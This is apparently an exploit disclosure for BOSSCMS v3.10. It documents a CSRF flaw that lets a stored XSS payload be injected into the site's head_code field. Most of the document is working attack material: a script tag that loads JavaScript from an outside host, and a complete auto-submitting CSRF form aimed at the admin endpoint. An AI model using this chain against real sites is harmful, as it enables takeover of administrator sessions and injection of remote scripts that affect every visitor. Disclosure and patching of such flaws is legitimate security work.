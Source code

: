 # BOSSCMS has CSRF and storage-optimized XSS

**Exploit Title:** BOSSCMS has CSRF and storage-optimized XSS

**Date:** 2024-04-01

**Exploit Author:** shuosheng,jixinzhang

**Vendor Homepage:** https://gitee.com/Greenpeas/BOSSCMS

**Software Link:** https://gitee.com/Greenpeas/BOSSCMS/archive/refs/tags/V3.1202310281625.zip

**Version:** Bosscms v3.10

bosscms xss link:https://github.com/ss122-0ss/BOSSCMS/blob/main/readme.md



csrf

In name="head_code" or name="foot_code", add payload, the payload here is

```
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

payload can be generated at https://xssaq.com/



![image-20240403102952903](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403102952903.png)

Put the HTML in a CSRF. In HTML, an administrator access to the http://127.0.0.1/csrf.html page, will automatically trigger modify code, triggering payload

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/bosscms1/admin/?mold=site&part=code&func=add" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="head&#95;code" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="hidden" name="foot&#95;code" value="test" />
      <input type="hidden" name="head&#95;mobile&#95;code" value="" />
      <input type="hidden" name="foot&#95;mobile&#95;code" value="" />
      <input type="hidden" name="csrftoken" value="sk92ef5fq7e14j0lcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20240403103230900](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240403103230900.png)

